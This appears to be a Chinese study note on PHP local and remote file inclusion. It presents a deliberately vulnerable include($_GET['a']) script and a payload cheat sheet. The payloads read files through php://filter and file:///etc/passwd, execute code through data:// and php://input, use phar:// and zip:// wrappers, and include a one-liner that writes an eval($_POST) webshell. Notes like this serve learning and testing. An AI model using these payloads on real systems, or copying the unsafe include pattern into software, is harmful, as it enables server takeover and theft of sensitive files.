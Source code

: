 ```yaml
---
title: 文件包含
date: 2024-01-25 21:02:22
tags:
---
```


```txt
1.php
<?php
if($_GET['a']!=null){
	include $_GET['a'];
	}else{
	include "home.php";
}
?>
```

include

![allow_url_include=On](https://raw.githubusercontent.com/20231201/123/main/allow_url_include%3DOn.png)

![默认](https://raw.githubusercontent.com/20231201/123/main/默认.png)

![设置参数为a.txt，include会转换成php文件执行](https://raw.githubusercontent.com/20231201/123/main/设置参数为a.txt，include会转换成php文件执行.png)

![远程访问](https://raw.githubusercontent.com/20231201/123/main/远程访问.png)

![读取敏感文件](https://raw.githubusercontent.com/20231201/123/main/读取敏感文件.png)

![username](https://raw.githubusercontent.com/20231201/123/main/username.png)

![在get传参处运行phpinfo](https://raw.githubusercontent.com/20231201/123/main/在get传参处运行phpinfo.png)

#要实现远程文件包含需要allow_url_fopen和allow_url_include都开启
#读文件(需要开启 allow_url_fopen)
?filename=php://filter/read=convert.base64-encode/resource=xxx.php 
?filename=php://filter/convert.base64-encode/resource=xxx.php      
#post传值（需开启 allow_url_include）
?file=php://input 
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["test"])?>');?>
#代码执行(php>=5.2.0)
data://text/plain;base64,dGhlIHVzZXIgaXMgYWRtaW4 
data:text/plain,<?php phpinfo();?>
#file读文件
?abc=file:///etc/passwd
#phar（>=5.3.0）
?file=phar://压缩包/内部文件 phar://xxx.png（压缩包）/shell.php （内部文件）
#zip（PHP > =5.3.0，注意在windows下测试要5.3.0<PHP<5.4 才
可以 #在浏览器中要编码为%23）
?file=zip://[压缩文件绝对路径]%23[压缩文件内的子文件名] 
zip://xxx.png#shell.php          
